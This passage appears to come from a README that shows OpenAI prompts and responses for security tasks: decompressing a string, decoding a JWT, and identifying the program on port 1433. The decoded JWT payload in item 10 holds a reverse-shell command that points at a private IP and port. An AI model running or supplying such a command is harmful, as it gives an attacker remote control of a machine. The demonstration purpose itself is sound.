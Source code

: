 `OpenAI Response:`
> The final payload is:  
```
Hello World! This is a test of the compression and decompression of a string
```

<h4>10. Decode JTW Token</h4>

`OpenAI prompt:` 
> Please decode JWT token payload ```eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMC44LjIuNDUiLCJuYW1lIjoic2ggLWkgPiYgL2Rldi91ZHAvMTAuOC4yLjQ1LzQyNDIgMD4mMSIsImlhdCI6MTUxNjIzOTEyMn0.AmnVg7KnvwVxR3SOdR0y6U9mp9F2MwU6U3emOATM8WA```

`OpenAI Response:`
> The decoded payload will be - 
```

{
  "sub": "10.8.2.45",
  "name": "sh -i >& /dev/udp/10.8.2.45/4242 0>&1",
  "iat": 1516239122
}
```

<h4>11. Info about port</h4>

`OpenAI prompt:` 
> What program use port ```1433```?

`OpenAI Response:`
> Microsoft SQL Server is a program that commonly uses port 1433.

